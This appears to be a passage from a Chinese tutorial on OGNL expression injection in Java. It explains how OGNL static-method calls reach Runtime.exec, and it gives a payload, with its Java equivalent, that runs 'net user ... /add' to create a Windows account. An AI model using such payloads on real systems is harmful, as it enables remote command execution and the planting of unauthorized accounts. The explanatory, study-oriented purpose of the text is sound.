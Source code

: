 ![2013072423341292194_png.jpg](img/img11_u50_jpg.jpg)

在上面已经列举出了 Ognl 可以调用静态方法，比如表达式使用表达式去调用 runtime 执行命令执行：

```
@java.lang.Runtime@getRuntime().exec('net user selina 123 /add') 
```

而在 Java 当中静态调用命令行的方式：

```
java.lang.Runtime.*getRuntime*().exec("net user selina 123 /add"); 
```

![2013072423342841300_png.jpg](img/img12_u42_jpg.jpg)
